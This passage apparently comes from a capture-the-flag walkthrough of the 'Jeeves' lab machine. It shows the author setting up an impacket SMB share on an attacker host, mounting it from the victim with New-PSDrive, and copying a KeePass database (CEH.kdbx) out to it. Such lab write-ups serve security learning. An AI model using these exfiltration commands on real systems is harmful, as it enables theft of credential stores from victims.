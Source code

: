 I will use the `impacket-smbserver` to mount share folder and transfer over the file to my attacker machine.

```bash
impacket-smbserver PleaseSubscribe 'pwd'
```
The smb server is listening on the attacker box with the PleaseSubscribe that anyone can write to.
On the victim machine we can run

```bash
New-PSDrive -Name "FollowOnX" -PSProvider "FileSystem" -Root "\\10.10.16.16\PleaseSubscribe"
```
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_7.png)

I can now navigate to the folder by
```bash
PS C:\Users\kohsuke\Documents> cd FollowOnX:
PS FollowOnX:\> 
```
Now I can copy the file `CEH.kdbx` to the shared smb folder and access it on the attacker machine.

```bash
cp C:\Users\kohsuke\Documents\CEH.kdbx .
```
As you can see I copied the file to the attacker machine successfully.
